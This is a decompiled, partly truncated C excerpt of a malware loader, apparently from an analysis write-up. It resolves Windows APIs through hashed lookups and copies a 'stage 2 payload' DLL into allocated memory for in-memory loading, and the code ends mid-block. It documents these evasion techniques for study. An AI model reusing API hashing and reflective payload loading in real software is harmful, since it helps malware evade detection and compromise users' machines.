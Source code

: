 ```c
  qmemcpy(v85, "RtlAddFunctionTable", 19);
  LdrLoadDll = u_lookup_func_from_hash(0xBDBF9C13);
  LdrGetProcedureAddress_ = u_lookup_func_from_hash(0x5ED941B5);
  LdrGetProcedureAddress = LdrGetProcedureAddress_;
  v97[0] = 0x180018;
  v98 = v90;
  (LdrLoadDll)(0i64, 0i64, v97, &kernel32_base);// load kernel32.dll
  v78 = v81;
  ordinal = 0xC000C;
  LdrGetProcedureAddress_(kernel32_base, &ordinal, 0i64, &VirtualAlloc);
  v78 = v83;
  ordinal = 0xE000E;
  LdrGetProcedureAddress_(kernel32_base, &ordinal, 0i64, &VirtualProtect);
  ordinal = 0x150015;
  v78 = v86;
  LdrGetProcedureAddress_(kernel32_base, &ordinal, 0i64, &FlushInstructionCache);
  v78 = v84;
  ordinal = 0x130013;
  LdrGetProcedureAddress_(kernel32_base, &ordinal, 0i64, &GetNativeSystemInfo);
  v78 = v80;
  ordinal = 0x50005;
  LdrGetProcedureAddress_(kernel32_base, &ordinal, 0i64, &Sleep);
  v78 = v85;
  ordinal = 0x130013;
  LdrGetProcedureAddress_(kernel32_base, &ordinal, 0i64, &RtlAddFunctionTable);
  v78 = v82;
  ordinal = 786444;
  LdrGetProcedureAddress_(kernel32_base, &ordinal, 0i64, &LoadLibraryA);

  /* ..... TRUNCATED FOR BREVITY ..... */

  /* Allocate some memory and copy the stage 2 payload. */
  GetNativeSystemInfo(&system_info);
  v14 = -system_info.dwPageSize & (*(v8 + 20) + system_info.dwPageSize - 1);
  if ( v14 == (~(system_info.dwPageSize - 1i64) & (v9 + system_info.dwPageSize - 1i64)) ) {
    alloc_mem = VirtualAlloc(
                  *(v8 + 6),
                  -system_info.dwPageSize & (*(v8 + 20) + system_info.dwPageSize - 1),
                  0x3000i64,
                  4i64);
    if ( !alloc_mem )
      alloc_mem = VirtualAlloc(0i64, v14, 0x3000i64, 4i64);
    if ( (a5_0 & 1) != 0 ) {
      *(alloc_mem + 15) = *(a1_stage2_dll + 15);
      i = *(a1_stage2_dll + 15);
      while ( i < *(v8 + 21) ) {
        v18 = i;
        i = (i + 1);
        alloc_mem[v18] = a1_stage2_dll[v18];
      }
    }
    else {                               // copy MZ file (dll) - Header only
      for ( i = 0i64; i < *(v8 + 21); alloc_mem[i_3] = a1_stage2_dll[i_3] ) {
        i_3 = i;
        i = (i + 1);
      }
    }

    v20 = 0;
    v21 = &alloc_mem[*(alloc_mem + 15)];
    v99 = v21;
    if ( *(v21 + 3) ) {
      v22 = &v21[*(v21 + 10) + 40];
```
